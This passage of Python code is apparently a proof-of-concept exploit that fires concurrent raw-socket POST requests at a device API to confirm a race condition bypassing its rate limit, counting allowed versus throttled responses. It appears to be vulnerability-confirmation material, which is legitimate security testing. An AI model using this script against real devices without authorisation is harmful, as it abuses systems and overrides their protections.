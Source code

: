 ```python
        try:
            sock.connect((self.target_ip, self.target_port))

            request = (
                b"POST /api/params HTTP/1.1\r\n"
                b"Host: k1-reinvented.local\r\n"
                b"Content-Type: application/json\r\n"
                b"Content-Length: 18\r\n"
                b"Connection: close\r\n"
                b"\r\n"
                b'{"brightness": 1.0}'
            )

            sock.sendall(request)
            response = sock.recv(1024).decode('utf-8', errors='ignore')

            # Check response code
            if "429" in response:
                status = "rate_limited"
                with self.lock:
                    self.limited_count += 1
            elif "200" in response:
                status = "allowed"
                with self.lock:
                    self.allowed_count += 1
            else:
                status = "unknown"

            print(f"[{request_id}] {status}")
            return status == "allowed"

        except Exception as e:
            print(f"[{request_id}] error: {e}")
            return None
        finally:
            sock.close()

    def exploit(self, concurrent_requests=8):
        """
        Send multiple concurrent requests within rate limit window.
        Expected: 1 allowed, 7 rate-limited (300ms window for /api/params POST)
        Actual (with race condition): 2-4 allowed due to race
        """
        print(f"[*] Sending {concurrent_requests} concurrent requests...")
        print(f"[*] Expected: 1 allowed, {concurrent_requests-1} rate-limited")
        print(f"[*] Actual (with race condition):")

        with ThreadPoolExecutor(max_workers=concurrent_requests) as executor:
            futures = [
                executor.submit(self.send_request, i)
                for i in range(concurrent_requests)
            ]
            for future in as_completed(futures):
                future.result()

        print(f"\n[+] Results:")
        print(f"    Allowed: {self.allowed_count} (expected: 1)")
        print(f"    Rate Limited: {self.limited_count} (expected: {concurrent_requests-1})")

        if self.allowed_count > 1:
            print(f"[+] RACE CONDITION CONFIRMED: {self.allowed_count} requests bypassed rate limit!")
            return True
```